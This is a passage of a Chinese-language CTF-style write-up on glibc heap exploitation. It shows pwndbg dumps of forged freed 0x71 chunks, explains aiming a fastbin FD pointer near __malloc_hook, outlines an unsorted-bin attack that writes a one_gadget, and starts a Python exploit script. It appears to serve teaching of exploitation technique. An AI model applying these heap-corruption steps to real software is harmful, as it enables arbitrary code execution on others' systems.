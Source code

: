

我们紧接着需要修正这0x71 FD freelist ，将其伪造成已经释放的块

```
pwndbg> x/40ag 0x555555757000
0x555555757000: 0x0     0x21
0x555555757010: 0x4141414141414141      0x4141414141414141
0x555555757020: 0x4141414141414141      0x71       <----------  free 0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
0x5555557570a0: 0x0     0x0
0x5555557570b0: 0x0     0x0
0x5555557570c0: 0x0     0x0
0x5555557570d0: 0x0     0x0
0x5555557570e0: 0x0     0x0
0x5555557570f0: 0xd0    0x71   <----------     free 0x71
0x555555757100: 0x0     0x0
0x555555757110: 0x0     0x0
0x555555757120: 0x0     0x0
0x555555757130: 0x0     0x0

```



```
libc : 0x7ffff7a23d28 ("malloc_hook")
```

这个时候我们的 FD 已经在 malloc hook 附近，为之后的爆破做准备。

### 第二步

我们只需要通过 释放一块0x71大小的 chunk 就能完成 fix。



### 第三步

利用 unsortebin 的攻击技巧，并使用编辑功能将 onegadet 写入	。



## 分析 exp



分配 `3` 个 `chunk` ，在 `B + 0x78` 处设置 `p64(0x61)` ， 作用是 `fake size` ,用于后面 的 `fastbin attack`



```python
create(0x18,0) # 0x20
create(0xc8,1) # d0
create(0x65,2)  # 0x70

info("create 2 chunk, 0x20, 0xd8")
fake = "A"*0x68
fake += p64(0x61)  ## fake size
edit(1,fake)
info("fake")
```
